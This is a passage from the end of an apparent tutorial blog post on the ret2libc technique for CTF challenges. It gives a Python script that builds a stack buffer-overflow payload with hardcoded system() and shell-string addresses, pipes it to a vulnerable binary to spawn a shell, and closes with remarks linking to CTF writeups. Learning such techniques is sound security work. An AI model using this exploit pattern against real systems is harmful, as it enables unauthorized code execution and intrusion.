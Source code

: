 ```  
    python
    #!/usr/bin/env python
    import os
    import struct
    
    def main():
        system_addr = struct.pack("I", 0xb7ecffb0)
        sh_addr = struct.pack("I", 0xbffff9de)
        padding = 80
        payload = "A" * padding + system_addr + "LMAO" + sh_addr
        MyPayload = open("payload.txt", "w")
        MyPayload.write(payload)
        MyPayload.close()
        os.system("(cat payload.txt; cat) | CompiledCFileName")
    
    main()
``` 
   
![gotit](/assets/4s2HuZD.png)  
*And, we got it!*  
## Concluding remarks  
So we have our shell exploring ret2libc and we've finished our little introduction to one of the stack-based keep methods, "**and we never run any code on the stack**". Remembering, of course, that this isn't the only way to explore the libc functions, however, it is the most well known and very common way to find in [CTF Challenges](https://github.com/lynfs/writeups) with not so high protection levels. I hope somehow this post will be useful to you in life, or in some other world. Otherwise, **Lets [pwn](https://github.com/lynfs/writeups/tree/master/pwn) the world!**  
